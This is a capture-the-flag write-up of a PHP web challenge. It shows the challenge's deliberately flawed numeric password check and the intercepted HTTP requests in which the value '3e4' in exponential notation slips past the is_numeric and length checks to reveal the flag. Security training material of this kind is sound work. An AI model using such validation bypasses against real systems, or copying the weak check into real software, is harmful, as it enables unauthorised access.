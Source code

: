 # Challenge Name: Big Number
- Level: medium

## Challenge Description:
a big number is needed to save the world\

Link: http://35.240.62.111/bignumber/

## Solution:
1 - Go to http://35.240.62.111/bignumber/
2 - Look at Code Source
```
<?php if (isset($_GET['password'])) {
    if (is_numeric($_GET['password'])){
        if (strlen($_GET['password']) < 4){
            if ($_GET['password'] > 999)
                die($flag);
            else
                print 'Too little';
        } else
                print 'Too long';
    } else
        print 'Password is not numeric';
}
?>
```

3 - Intercept request with Burp Suit
```
GET /bignumber/?password=333 HTTP/1.1
Host: 35.240.62.111
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://35.240.62.111/bignumber/
Upgrade-Insecure-Requests: 1
```
- Response: `Too little`

4 - Bypass is_numeric
- https://www.php.net/manual/en/function.is-numeric.php -> `Finds whether the given variable is numeric. Numeric strings consist of optional whitespace, optional sign, any number of digits, optional decimal part and optional exponential part. Thus +0123.45e6 is a valid numeric value.`\
- so we will try using exponential, like 3e4 is > 999 and strlen("3e4") < 4 
- Request
```
GET /bignumber/?password=3e4 HTTP/1.1
Host: 35.240.62.111
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://35.240.62.111/bignumber/
Upgrade-Insecure-Requests: 1
```
- Response: `FLAG{Yes_Y0u_C4n_Use_Exp0nentiaL}`